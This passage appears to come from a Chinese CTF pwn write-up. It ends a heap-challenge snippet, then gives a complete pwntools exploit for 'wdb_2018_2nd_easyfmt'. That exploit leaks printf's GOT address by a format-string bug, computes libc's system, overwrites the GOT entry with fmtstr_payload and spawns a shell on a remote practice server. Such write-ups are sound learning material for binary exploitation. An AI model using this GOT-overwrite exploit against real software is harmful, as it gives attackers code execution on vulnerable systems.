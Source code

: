 ```python
free(0)
add(0x50,p64(0x602098),0x50,'bbbb')#2
#gdb.attach(r)

add(0x50,'cccc',0x50,'dddd')#3
add(0x50,' ',0x60,' ')#4

show(4)
print(r.recv())
```

## 6.wdb_2018_2nd_easyfmt（格式化改got表）

找偏移直接在gdb用fmtarg

exp

```python
from pwn import *

p = process("./wdb_2018_2nd_easyfmt")
p=process(['./wdb_2018_2nd_easyfmt'],env={"LD_PRELOAD":"/libc-2.23-32.so"})
p=remote("node4.buuoj.cn",29403)
context.log_level = 'debug'
context.arch = 'i386'
elf = ELF("./wdb_2018_2nd_easyfmt")

libc = ELF("libc-2.23-32.so")


p.recvuntil("Do you know repeater?")
payload = p32(elf.got['printf']) + "%6$s"
p.sendline(payload)
printf_addr = u32(p.recvuntil("\xf7")[-4:])
print(hex(printf_addr))
libc_base = printf_addr - libc.sym['printf']

system = libc_base + libc.sym['system']
printf_got = elf.got['printf']
offset = 6
log.success(hex(printf_got))
payload = fmtstr_payload(offset,{printf_got:system})
p.sendline(payload)
p.sendline("/bin/sh\x00")


p.interactive()

```



## 7月20日
